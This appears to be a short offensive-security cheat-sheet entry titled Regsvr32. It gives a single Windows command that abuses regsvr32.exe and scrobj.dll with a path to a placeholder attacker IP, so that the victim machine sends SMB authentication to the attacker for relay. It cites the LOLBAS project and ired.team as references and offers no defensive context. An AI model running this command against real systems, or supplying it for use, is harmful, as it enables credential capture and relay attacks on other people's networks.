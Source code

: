 # Regsvr32

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll
```

---
## References

https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/

https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo